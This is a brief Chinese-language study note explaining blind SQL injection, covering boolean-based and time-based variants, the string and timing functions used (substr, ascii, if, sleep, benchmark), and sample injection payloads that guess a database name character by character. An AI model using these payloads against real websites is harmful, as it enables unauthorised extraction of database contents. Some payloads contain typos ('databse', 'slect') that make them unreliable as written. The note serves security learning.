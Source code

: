 # 盲注

## 一、适用场景

- 没有回显的时候

## 二、Boolean型盲注

- Boolean是基于真假的判断，不管输入什么，结果都只返回真或假两种情况。Boolean型盲注的关键在于通过表达式结果与已知值金i选哪个对比，根据对比结果判断正确与否。

- 盲注有时候需要一个一个字符猜，因此一些字符串操作的函数经常被应用到

  ```
  length()：返回查询字符串长度
  mid(column_name,start,length)：截取字符串
  substr(string,start,length)：截取字符串
  Left(string,n)：截取字符串
  ORD()：返回字符的ASCII码
  ASCII()：返回字符的ASCII码
  ```

  例如：

  ```
  1 and length(database())=5                先盲注猜长度
  1 and substr(databse(),2,1)='e'--+        如果正确响应结果，说明数据可名的第二个字符是e
  1 and (slect substr (database(),1,1)='l') 可以使用select构造复杂sql语句
  ```

- 使用burpsuite进行遍历，可以获取正确信息

## 三、时间型盲注

- Boolean盲注还是能通过页面返回的对错来判断，当页面任何信息都不返回的时候，就需要使用时间盲注。
- 时间盲注是在布尔盲注的基础上，首先经过真假的判断，然后在真假判断上添加时间的判断。
- 时间盲注所需要函数大多与布尔盲注相同。

```
length()：返回查询字符串长度
mid(column_name,start,length)：截取字符串
substr(string,start,length)：截取字符串
Left(string,n)：截取字符串
ORD()：返回字符的ASCII码
ASCII()：返回字符的ASCII码

if()：逻辑判断
sleep()：控制时间
benchmark()：控制时间
```

例如：

```
1 and if(length(database())=5,sleep(3),1)           若数据库名长度为5则页面响应时间大于3秒
1 and (select benchmark(50000000,(select username from user limit 1)))
```

